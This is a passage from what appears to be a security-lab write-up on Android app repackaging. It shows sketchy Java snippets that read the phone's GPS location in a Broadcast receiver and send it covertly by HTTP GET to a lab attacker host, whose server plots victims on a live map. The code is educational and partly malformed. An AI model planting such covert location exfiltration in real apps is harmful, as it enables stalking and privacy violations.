 \subsection{Location}


We embed this code in the Broadcast receiver. Its job is to get the current location from the
GPS of the phone and send it to our server.

\begin{enumerate}
\item Getting location
\begin{lstlisting}
....
location = locMgr.getLastKnownLocation(LocationManager.GPS_PROVIDER)
Location location = locMgr.getLastKnownLocation(LocationManager.GPS_PROVIDER);
location.getLatitude;
location.getLongitude;
....
\end{lstlisting} 
\item Sending location
\begin{lstlisting}
Public void Get(String s){
URL urlConnection = new URL(s);
HttpURLConnection con = (HttpURLConnection) urlConnection.openConnection();
con.setRequestMethod("GET");
}
...
Get("http://www.repackagingattacklab.com/location.php?"+location);
...
\end{lstlisting} 
\end{enumerate}

On our attacker machine, we will be able to see a live map plotting with the location of the VM\\\\
\textbf{Attacker machine :}\\
As we see in the code above, the attack code talks to "http://www.repackagingattacklab.com". This is actually a virtual host running on the Attacker machine. We will modify the /etc/hosts file of the Android VM in the environment setup so that it can resolve this URL. \\
On the attacker machine, we have a apache server running, where "location.php" takes data input from the GET request we send in our attack code and writes it into a JSON file. Our javascript code then pulls data from this JSON file to plot the map using AJAX to update the map.\\
 You can view the source code in /var/www/repackaginglab folder of our attacker machine. \\\\


